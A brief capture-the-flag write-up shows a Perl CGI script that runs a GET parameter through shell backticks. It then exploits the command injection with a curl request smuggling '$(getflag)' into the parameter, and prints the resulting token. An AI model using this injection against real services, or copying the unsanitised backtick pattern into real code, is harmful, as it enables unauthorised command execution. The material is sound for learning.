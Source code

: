 In our home directory, we find a Perl script:
```pearl
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html";
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    x(param("x"));`
```

The script takes a parameter and then prints it to the screen. Additionally, we know that the result is accessible at localhost:4747.

By examining the Perl script, we notice that it uses the HTTP module to print the "x" GET parameter and echoes it using the system echo command. Since this script is executed with the flag04 user's permissions, we can exploit it as follows::

`curl localhost:4747?x='$(getflag)'`

This command uses a subshell to run the getflag command within the script, allowing us to obtain the token.

`Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap`
